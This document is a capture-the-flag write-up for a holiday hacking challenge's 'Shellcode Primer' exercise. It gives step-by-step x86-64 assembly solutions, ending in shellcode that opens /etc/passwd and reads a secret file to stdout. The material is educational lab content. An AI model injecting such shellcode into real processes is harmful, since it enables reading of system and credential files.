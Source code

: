 # Objective 6: Shellcode Primer
**Location: Jack's Office, Frost Tower, 16<sup>th</sup> Floor, https://tracer.kringlecastle.com/**  
**Elf: Ruby Cyster**  
**Hints provided by Chimney Scissorsticks after completion of [Holiday Hero](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Holiday%20Hero.md)**

This objective is a small training in x86 assembly language (basics and performing system calls). The background is to be able to create shellcode payloads to be used in system attacks.

1. Introduction
2. Loops
3. Getting Started
```asm
ret
```
4. Returning a Value
```asm
mov rax,1337  ; return value
ret
```
5. System Calls
```asm
mov rax,60    ; sys_exit
mov rdi,99    ; return code
syscall
```
6. Calling Into the Void
7. Getting RIP
```asm
call place_below_the_nop
nop
place_below_the_nop:
pop rax       ; pop pointer to NOP from stack
ret
```
8. Hello, World!
```asm
call go
db 'Hello World',0
go:
pop rax       ; pop pointer to string from stack
ret
```
9. Hello World!!
```asm
call go
db 'Hello World!',0
go:
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
pop rsi       ; pop pointer to buffer from stack
mov rdx,12    ; 12 bytes
syscall
ret
```
10. Opening a File
```asm
call go
db '/etc/passwd',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
ret
```
11. Reading a File
```asm
call go
db '/var/northpolesecrets.txt',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
mov rdi,rax   ; file descriptor returned from sys_open (in rax)
mov rax,0     ; sys_read
mov rsi,rsp   ; pointer to buffer on stack
mov rdx,1000  ; 1000 bytes to read
syscall
mov rdx,rax   ; number of bytes read returned by sys_read (in rax)
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
mov rsi,rsp   ; pointer to buffer on stack
syscall
mov rax,60    ; sys_exit
mov rdi,0     ; return code
syscall
```
The content of the file from step 11 is "Secret to KringleCon success: all of our speakers and organizers, providing the gift of **cyber security knowledge**, free to the community."

### Bonus 11a: Protecting the stack
In order to prevent `sys_read` from overwriting a return address (so that it is not necessary to terminate the process using sys_exit), it is possible to reserve the required buffer space on the stack:
```asm
call go
db '/var/northpolesecrets.txt',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
mov rdi,rax   ; file descriptor returned from sys_open (in rax)
mov rax,0     ; sys_read
sub rsp,400h  ; reserve 1024 bytes on stack
mov rsi,rsp   ; pointer to buffer on stack
mov rdx,1000  ; 1000 bytes to read
syscall
mov rdx,rax   ; number of bytes read returned by sys_read (in rax)
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
mov rsi,rsp   ; pointer to buffer on stack
syscall
add rsp,400h  ; free up the reserved 1024 bytes on stack
mov rax,60    ; sys_exit
mov rdi,0     ; return code
syscall
```


**Achievement: Shellcode Primer**  
**Hint: Printer Firmware**  
**Hint: Hash Extension Attacks**  
**Hint: Dropping Files**
